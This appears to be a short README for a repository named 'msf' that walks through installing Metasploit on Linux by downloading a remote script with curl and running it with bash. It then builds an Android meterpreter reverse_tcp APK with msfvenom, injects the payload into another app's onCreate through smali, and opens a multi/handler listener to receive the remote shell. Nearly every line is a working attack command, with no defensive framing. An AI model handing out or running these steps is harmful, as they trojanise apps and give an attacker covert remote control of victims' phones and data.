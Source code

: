 # msf
Script to install Metasploit on Linux Terminal

#========= Open GCS Terminal ==========#

#========= Install Metasploit ==========#

$ curl https://raw.githubusercontent.com/TdimMax/msf/main/metasploit

$ chmod 755 metasploit

$ bash metasploit

#========= Create APK Payload ==========#

$ msfvenom -p android/meterpreter/reverse_tcp LHOST=host  LPORT=8080 R > /home/hack/payload.apk

#========== Inject payload on Android Application =========#

</> onCreate

</> invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

#========= Start Exploitation ==========#

$ msfconsole

$ use exploit/multi/handler

$ set PAYLOAD android/meterpreter/reverse_tcp

$ set LHOST host

$ set LPORT 8080

$ exploit

#========== Enjoy ! =========#
